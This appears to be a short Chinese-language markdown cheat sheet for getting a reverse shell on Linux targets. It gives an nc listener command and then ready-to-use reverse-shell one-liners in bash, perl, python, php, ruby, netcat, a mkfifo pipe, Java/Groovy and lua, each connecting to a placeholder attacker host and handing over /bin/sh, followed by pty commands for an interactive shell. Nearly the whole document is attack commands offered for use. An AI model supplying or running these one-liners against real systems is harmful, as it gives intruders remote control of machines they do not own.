 # Linux环境中反弹shell
`@Time   : 2021/5/8 下午3:58`
`@Author : 852782749@qq.com`


```
开始编辑～
```
# 说明
```angular2html
主要涉及到nc的应用 

```

### 远程服务器开启端口监听
```angular2html
nc -l 12345
```
### 目标服务器linux反弹shell
```angular2html
nc your_ip your_port -e /bin/bash 

bash -I >& /dev/tcp/your_ip/your_port 0>&1


perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

nc -e /bin/sh 10.0.0.1 1234

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

nc x.x.x.x 8888|/bin/sh|nc x.x.x.x 9999

r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()

lua -e "require('socket');require('os');t=socket.tcp();t:connect('10.0.0.1','1234');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```

### 获取shell窗口(交互式shell界面，可以根据目标环境中选择相应的命令)
```angular2html
script /dev/null

python -c 'import pty; pty.spawn("/bin/bash")' 

```


> 乾坤未定，你我皆是黑马